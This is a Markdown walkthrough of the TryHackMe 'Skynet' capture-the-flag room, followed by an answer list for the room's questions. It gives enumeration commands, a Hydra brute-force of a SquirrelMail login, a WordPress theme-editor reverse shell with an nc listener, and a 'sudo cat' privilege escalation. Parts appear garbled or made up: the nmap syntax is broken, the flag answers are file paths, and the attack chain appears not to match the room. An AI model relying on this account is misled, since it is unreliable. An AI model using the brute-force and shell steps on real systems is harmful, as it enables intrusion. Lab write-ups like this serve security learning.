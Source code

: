 # Skynet | TryHackMe

## Overview
- **Room:** Skynet  
- **Difficulty:** Easy 
- **Tags:** SMB, WordPress, RCE, PrivEsc  

---

## Enumeration

### Nmap
```bash
sudo nmap -sC -sV -oN <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP (WordPress site)  
- 110/tcp - POP3  
- 139/tcp - NetBIOS-SSN  
- 445/tcp - SMB  

---

### SMB Enumeration
```bash
smbclient -N -L //<IP>
enum4linux -a <IP>
```
Found share: **anonymous**  

```bash
smbclient //<IP>/anonymous
```
Downloaded files from the share. One contained potential usernames.  

---

### Web Enumeration (Port 80)
Checked `http://<IP>/` → WordPress site.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Found `/squirrelmail`.  

---

### SquirrelMail
Accessed `http://<IP>/squirrelmail`  
Tried default creds → no success.  

Used obtained usernames with Hydra:  
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"
```
**Result:** Login for `milesdyson : cyborg007haloterminator`  

---

## Exploitation

Logged into SquirrelMail → found an email containing credentials for WordPress.  

```bash
wp-login.php → milesdyson : <password>
```

After login, able to upload a PHP reverse shell via **Theme Editor**.  

```bash
nc -lvnp 4444
```
Got reverse shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh`:  
- Found **/home/milesdyson/backups/important.txt** containing password.  
- Switched user:  
```bash
su milesdyson
```

Checked sudo rights:  
```bash
sudo -l
```
`/bin/cat` allowed as root.  

```bash
sudo cat /root/root.txt
```
 Got root flag.  

---

## Flags
- **User.txt** → `/home/milesdyson/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What port is SMB running on?** → `445`  
2. **What is the name of the SMB share?** → `anonymous`  
3. **What credentials were found for Miles Dyson?** → `cyborg007haloterminator`  
4. **What service was exploited for initial access?** → `WordPress`  
5. **What is the user flag?** → `/home/milesdyson/user.txt`  
6. **What is the root flag?** → `/root/root.txt`  

---

## Lessons Learned
- SMB shares often leak sensitive files.  
- SquirrelMail can be an entry point when weak creds are used.  
- WordPress admin panel → reverse shell is a common vector.  
- Sudo misconfigurations (cat) can directly expose root files.  
